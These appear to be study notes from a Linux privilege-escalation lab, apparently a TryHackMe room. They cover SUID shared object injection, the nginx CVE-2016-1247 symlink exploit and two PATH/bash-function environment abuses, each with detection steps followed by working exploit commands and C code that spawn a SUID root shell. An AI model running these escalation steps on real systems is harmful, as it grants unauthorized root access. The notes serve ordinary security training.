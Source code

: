 #Linux #PrivEsc #SUID #SharedObjectInjection #GTFOBins #sudo #symlinks   #CVE-2016-1247 #Nginx #EnvironmentVariables #Apache #gcc #Find #strings #env

# Shared Object Injection
#SharedObjectInjection
## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries. e.g. `/usr/local/bin/suid-so`
3. In command line type:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.

## **Exploitation**
Linux VM

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as `libcalc.c` (make sure to use tabs not spaces, sometimes errors out)
9. In command prompt type:
```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

---
# CTF Challenge

[[VulnUniversity - THM]]

---
# Symlinks
#symlinks

[Nginx Exploit](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)
#CVE-2016-1247 #Nginx

## **Detection**
Linux VM

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.
3. Run `find / -type f -perm -04000 -ls 2>/dev/null`
	1. SUID bit must be set on `/usr/bin/sudo` also to exploit nginx

## **Exploitation**

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: `su root`
2. The root password is `password123`
3. Once escalated to root, in command prompt type: `su -l www-data`
4. In command prompt type:
```
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
```
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: `su root`
2. The root password is `password123`
3. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`

---

# Environment Variables #1
#EnvironmentVariables #Apache #find #strings 

## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env`
4. From the output, notice the functions used by the binary.

## **Exploitation**
Linux VM

1. In command prompt type:
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`

---

# Environment Variables #2
#EnvironmentVariables #env #find #strings 

## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

## **Exploitation Method #1**
Linux VM

1. In command prompt type:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
2. In command prompt type:
`export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`

## **Exploitation Method #2**
Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```